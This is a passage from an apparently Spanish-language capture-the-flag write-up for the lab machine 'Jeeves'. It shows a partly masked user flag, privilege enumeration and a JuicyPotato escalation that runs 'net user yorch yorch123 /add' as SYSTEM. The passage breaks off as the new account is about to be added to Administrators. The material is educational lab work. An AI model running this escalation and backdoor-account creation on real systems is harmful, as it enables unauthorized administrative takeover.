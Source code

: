 ```bash
C:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3232272596fb4795***************
```

### Escalada Privilegios

* * *

Enumerando privilegios de usario `kohsuke` vemos que pertenece al grupo `SeImpersonatePrivilege`. Enseguida nos viene a la cabeza `JuicyPotato`

```bash
C:\Users\kohsuke\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Nos dirigimos al GitHub de [ohpe](https://github.com/ohpe/juicy-potato) y nos decargamos el binario compilado `JuicyPotato.exe` y lo subimos a la máquina víctima. Primero creamos un usuario

```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user yorch yorch123 /add" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

net user
net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  yorch                    
The command completed successfully.
```

A continuación agregamos el usuario creado al grupo `Administrators`
